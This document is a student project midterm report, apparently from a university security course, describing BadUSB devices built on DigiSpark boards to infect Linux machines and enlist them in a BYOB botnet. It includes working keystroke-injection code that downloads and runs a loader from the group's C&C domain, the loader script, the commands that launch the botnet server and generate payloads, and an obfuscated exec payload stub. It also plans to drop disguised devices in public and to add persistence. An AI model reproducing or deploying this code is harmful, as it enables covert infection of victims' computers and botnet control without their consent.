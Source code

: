 # CSUS CSC154: Project Midterm Report

## Objective  
The objective of this project is to create BadUSB devices, that upon plugin, infect victim computers with malware configured to join a botnet.

### BadUSB  
To create our BadUSB devices we'll be using the [DigiSpark](http://digistump.com/products/1) development board by [Digistump](http://digistump.com/). These devices will be recognized as USB keyboards by the victims' machines, and will execute keystrokes to deliver our payload.

### Botnet  
For our botnet we're currently still exploring a handful of open source frameworks. The leading contender at the moment is [Build Your Own Botnet](https://github.com/malwaredllc/byob). Other frameworks we're looking into include [GoBot2](https://github.com/SaturnsVoid/GoBot2), [UBoat](https://github.com/Souhardya/UBoat), and [Loki](https://github.com/Pure-L0G1C/Loki). There may be other frameworks we explore as they're discovered. Our ultimate goal is an easily deployed and managed *command and control server*, and the ability to generate cross platform compatible clients.


## Progress  

### DigiSpark  
Thus far, we've purchased our BadUSB (DigiSpark) devices via Amazon. We have 12 of these devices spread across our members. They cost about $3 dollars each. 

![amazon](./images/amazon.png)
**Figure 1:** DigiSpark boards on Amazon.

In order to program our USB devices we've installed the [Arduino IDE](https://www.arduino.cc/en/Main/Software).  
![arduino_download](./images/arduino_download.png)
**Figure 2:** Download the Arduino IDE.

We've then configured the Arduino IDE to include the DigiSpark board, so that we may use the `DigiKeyboard.h` library.   
![digistump_json](./images/digistump_json.png)
**Figure 3:** Add DigiStump board manager url to configuration.

![digistump_boardmanager](./images/digistump_boardmanager.png)
**Figure 4:** Board manager downloading DigiStump's board libraries.

![digistump_default](./images/digistump_setboard.png)
**Figure 5:** Set board to Digispark Default.

The following code is what we've developed thus far to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 * 
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```

As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.

### Command and Control Server  
* [Digital Ocean](https://digitalocean.com)
* [Domain Name](https://sheep.casa)
* [BYOB](https://github.com/malwaredllc/byob)


We've created a VPS on Digital Ocean to run our C&C server. We're using an Ubuntu 18.04 droplet at the cost of $5 per month. Additionally, we've purchased the domain `sheep.casa`, and directed it towards our C&C server.

![digitalocean](./images/digitalocean.png)
**Figure 6:** Botnet C&C server droplet on Digital Ocean.

![sheep](./images/sheep.png)
**Figure 7:** ASCII sheep, just for fun.



The botnet framework we're currently using (BYOB) was installed via `git clone git@github.com:malwaredllc/byob.git && cd ./byob/byob && pip install -r requirements.txt &&  mv ../../byob /opt/`. This clones the repository, installs the required python modules, and moves the directory to into `/opt`.  

To launch the botnet we've created a bash script setting the host to `sheep.casa` and the listening port to `1337`. This script is placed in the `/root` directory. 

```bash
#!/bin/bash
cd /opt/byob/byob && python server.py --port 1337
```

![boot_BYOB](./images/boot_BYOB.png)
**Figure 8:** Botnet server running, no current sessions.



### Payloads  

#### Loader
Our BadUSB attack downloads and executes the loader script. For our attack on Linux machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

#### Python Payload

A payload is generated via BYOB's `client.py` script. We've generated our Linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.

![payload_generated](./images/payload_generated.png)
**Figure 9:** Generating our python payload.

In order to host our payloads, we've installed Apache 2 on the C&C server. In a real world attack this would be pretty bad practice, but it's a matter of convenience for us. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.

![payload_directory](./images/payload_directory.png)
**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


## Demo  



## Todo
We've yet to configure our BadUSB devices to infect Windows or OSX machines. Additionally, we need to develop payloads for Windows and OSX to deliver via our BadUSB devices once they're configured. Across the team we should already have computers running each OS to begin our development. 

Ideally, the same BadUSB device would be able to infect Windows, OSX, and Linux. However, we're still uncertain that this is technically achievable given the way USB functions. Currently we do not have knowledge of how to detect which operating system a victim's computer is running. We may need to configure different devices to be plugged in depending on the victim's machine. However, we will still explore how one device may be used to infect all OS(s). An option we're exploring is simply loading all of our payloads onto one device, and attempting to execute each of them quietly until the machine is infected.

A different device per OS would be perfectly acceptable in an attack scenario in which the attacker has physical access to the victim's machine. The devices are cheap and small, so carrying three of them should be no issue. However, for attack scenarios in which the BadUSB device is left in a public place for a victim to find (disguised as a lost flash drive), the ability to infect any OS would greatly improve the success rate.

Lastly, once a victim is initially infected, we'd like to keep them infected. This means we're exploring how to add our payloads to run on startup, but without root/admin privileges this may not be feasible. 


